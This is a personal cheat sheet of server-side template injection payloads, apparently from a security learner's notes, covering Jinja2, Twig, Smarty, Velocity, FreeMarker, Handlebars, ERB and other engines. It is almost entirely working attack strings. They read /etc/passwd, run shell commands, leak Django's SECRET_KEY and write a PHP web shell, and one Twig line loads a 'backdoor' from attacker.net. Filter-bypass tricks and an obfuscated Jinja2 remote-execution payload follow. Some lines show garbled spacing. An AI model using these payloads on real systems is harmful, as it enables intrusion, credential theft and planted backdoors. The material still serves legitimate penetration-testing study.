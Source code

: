 # Cheat Sheet testing:
![image](https://github.com/user-attachments/assets/d7f5bf06-7269-46a3-8d2b-419688fdb68d)
```
Jinja2 (Python Flask/Django): {{ 7*7 }}  
Freemarker (Java):             ${7*7}  
Velocity (Java):          #set($a = 7*7)${a} 
Thymeleaf (Java):              ${7*7}  
Twig (PHP Symfony):           {{ 7*7 }}  
Smarty (PHP):                  {$7*7}  
Mako (Python):                 ${7*7}
ERB (Ruby):                  <%= 7*7 %>
Smarty:                    a{*comment*}b
```
![Pasted image 20250408092652.png](/mnt/c/Users/kolbe/OneDrive/Obsidian Vault/Cybersecurity/ScreenshotsPasted%20image%2020250408092652.png)
- When the template engine is confirmed, you can replace the `7*7` with commands from the corresponding template engine

## SSTI Polygot
```
${{<%[%'"}}%\.
```

## FreeMarker (Java):
```
${7*7}=49
```
```
<#assign command="freemarker template utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

## Java:
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("") .getPath()}
${class.getResource(" .. / .. / .. / .. / .. /index.htm") .getContent()}
${T(java. lang. System) . geteny ( ) }
${product.getClass() .getProtectionDomain().getCodeSource().getLocation().toURI().re
solve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump (app)}}
{{app. request. server. all| join(',') }}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP) :
```
{$smarty.version}
{php}echo `id ; {/php}
{Smarty_Internal_Write_File :: writeFile($SCRIPT_NAME," <? php passthru ($_GET['cmd' ]);
?>",self: : clearConfig())}
```
## Handlebars (NodeJS) :
```
wrtz{{#with "s" as | string| }}
{ {#with "e"}}
{{#with split as
{{this.pop} }
{{this.push (lookup string. sub "constructor" ) } }
{{this.pop}}
{{#with string.split as | codelist| }}
{{this.pop}}
{{this.push "return require('child_process' ) . exec ( 'whoami' ); "}}
{ {this.pop} }
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{ {/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set ($chr=$class.inspect("java.lang.Character") .type)
#set ($ex=$class.inspect("java.lang.Runtime") .type.getRuntime() .exec ("whoami"))
$ex.waitFor ()
#set ($out=$ex.getInputStream())
#foreach($i in [1 .. $out.available() ])
$str.valueOf($chr.toChars ($out.read()))
#end
```

## ERB (Ruby) :
```
<%= system("whoami" ) %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file' ) .read %>
```

## Django Tricks (Python):
```
{% debug %}
{{settings.SECRET_KEY} }
```

## Tornado (Python) :
```
{% import foobar %} = Error
{% import os %} { {os. system ( 'whoami' ) } }
```

## Mojolicious (Perl) :
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base. subclasses () }} # get all classes
{{''.class.mro() [1].subclasses()}}
{%for c in [1,2,3] %}{ {c.c.c}}{% endfor %}
```

## Flask/Jinja2:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

## Jade:
```
#{root.process.mainModule.require('child_process') . spawnSync('cat', ['/etc/passwd']) .stdout}
```

## Razor (.Net) :
```
@(1+2)
@{// C# code}
```

### Bypassing filters
#### Blocking: `.`
- (`.`) → Uses `|attr()` to dynamically access attributes:  
```
request.application.__globals__  TURNS INTO: request|attr(‘application’)|attr(“__globals__”)
```

#### Blocking: `__`
- Hex Encoding (`\x5f`) for Underscores (`_`)

#### Blocking: `[]`
- Using `__getitem__()` Instead of `[]`

#### RCE Without `eval()` or `exec()`  
```
__import__(‘os’).popen(‘id’).read()  
```
- Avoids blocked `os.system()` and `subprocess.Popen()`.

#### Example payloads:
Payload to commit RCC (in jinja):
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- Executes the `id` command

